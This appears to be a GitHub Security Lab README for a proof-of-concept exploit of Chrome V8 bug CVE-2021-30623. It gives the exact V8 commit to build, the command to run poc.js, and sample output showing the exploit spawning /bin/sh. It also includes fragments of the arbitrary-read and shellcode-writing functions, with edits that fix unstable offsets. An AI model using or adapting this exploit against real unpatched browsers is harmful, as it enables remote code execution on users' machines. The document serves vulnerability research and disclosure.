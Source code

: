 ## Chrome in-the-wild bug CVE-2021-30623

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30623). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.3.345.16 (commit `632e6e7`), which is the version shipped with Chrome 93.0.4577.63, the one before the bug is fixed, on Ubuntu 20.04. I have not tested it on Chrome itself.

To test, check out `v8` at commit `632e6e7` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
instance: 81d42dd
elements: 804abd9
rwx page address: 22c70c88b000
intArray addr: 8105d79
intBackingStore: 56498ceb25e0
$
```

Shell code may need changing on other platforms.

The exploit is very reliable, however, when testing, I notice that some offsets appear to be sensitive to small changes in the file (even adding comments may cause problem), which would cause the exploit to fail. This only happens when the file is modified and usually manifest itself with some garbage values of the addresses, for example:

```
instance: 81d42dd
elements: 800222d
rwx page address: 3ff199999999999a
intArray addr: 81067e1
intBackingStore: 3ff199999999999a
```

In the above, address of `rwx page` and `initBackingStore` are clearly incorrect. The root cause seems to be an incorrect `elements` store value. (`800222d` is not a valid value) This can usually be fixed by changing the following lines regarding the address of elements:

```
function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);  //<---- change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));          //<---- change to   oobWrite(i32tof(addr1,addr));
  return writeArr[0];
}
...
function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  console.log("intArray addr: " + intArrAddr.toString(16));
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  console.log("intBackingStore: " + ftoi(arbRead(intArrAddr + 0x20)).toString(16));

  [elements, addr1] = ftoi32(addrs[1]);              //<------ change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));        //<------ change this to oobWrite(i32tof(addr1, intArrAddr + 0x20));
  ...
}
...
var elementsAddr = ftoi32(addrs[1])[0];             //<------- change this to var elementsAddr = ftoi32(addrs[1])[1];
```

This, however, does not affect the reliability of the exploit as the offsets are stable as long as the file is fixed, but it may cause issues if the poc is modified. I do not know what causes this, but the exploit can probably be made more robust against this by matching patterns in memory instead of relying on fixed offsets.
